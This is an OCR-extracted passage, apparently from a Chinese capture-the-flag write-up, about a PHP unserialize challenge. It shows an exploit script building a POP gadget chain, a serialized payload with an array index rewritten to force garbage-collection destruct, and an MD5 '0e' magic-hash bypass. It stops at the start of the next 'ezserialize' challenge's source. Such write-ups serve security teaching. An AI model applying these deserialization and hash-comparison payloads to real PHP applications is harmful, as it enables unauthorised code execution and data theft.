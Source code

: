 Huoyanjinjing 里的 echo $this->huoyan->jinjing;

因为存在invoke 方法，当尝试以调用函数的方式调用一个对象时，invoke

方法会被自动调用，所以可以利用 Dinghaishenzhen 中的$f=$this->yun;$f();

因为存在__toString 方法，当一个对象转化成字符串时自动调用该方法，所以

可以利用 Tianmingren 中的$this->tianming。

又因为存在throw new Exception，导致destruct检测不到有东西被销毁，在网上搜索一下，是gc绕过，当数组为null时可以触发。

故 exp 为：

```
$a=new Tianmingren;
$a ->tianming=new Dinghaishenzhen;
$a ->tianming ->yun=new Huoyanjinjing;
$a ->tianming ->yun ->huoyan=new Wuzhishan;
echo serialize(array($a,0));
```

审计代码：md5($yin)==$yang&&md5($yin)==md5($yang)，所以传入的参数的本

身和其 MD5 都应该为 0e 开头

构造payload：

?J=0e215962017

Wukong=a:2:{i:0;O:11:"Tianmingren":2:{s:8:"tianming";O:15:"Dinghaishe

nzhen":2:{s:6:"Jindou";s:40:"一个筋斗能翻十万八千里！

";s:3:"yun";O:13:"Huoyanjinjing":2:{s:6:"huoyan";O:9:"Wuzhishan":3:{s:

2:"wu";s:40:"俺老孙定要踏破这五指山！

";s:3:"zhi";N;s:4:"shan";N;}s:7:"jinjing";N;}}s:3:"ren";N;}i:1;i:0;}

再将i:1;1:0;改为i:0;1:0；

最终payload：

?J=0e215962017

Wukong=a:2:{i:0;O:11:"Tianmingren":2:{s:8:"tianming";O:15:"Dinghaishe

nzhen":2:{s:6:"Jindou";s:40:"一个筋斗能翻十万八千里！

";s:3:"yun";O:13:"Huoyanjinjing":2:{s:6:"huoyan";O:9:"Wuzhishan":3:{s:

2:"wu";s:40:"俺老孙定要踏破这五指山！

";s:3:"zhi";N;s:4:"shan";N;}s:7:"jinjing";N;}}s:3:"ren";N;}i:0;i:0;}

## 9.[web]ezserialize

```php
<?php
error_reporting(0);

class Flag {
    private $flag;

    public function __construct() {
        $this->flag = file_get_contents('/flag');
    }

    public function getFlag() {
        return $this->flag;
    }

    public function __toString() {
        return "You can't directly access the flag!";
```
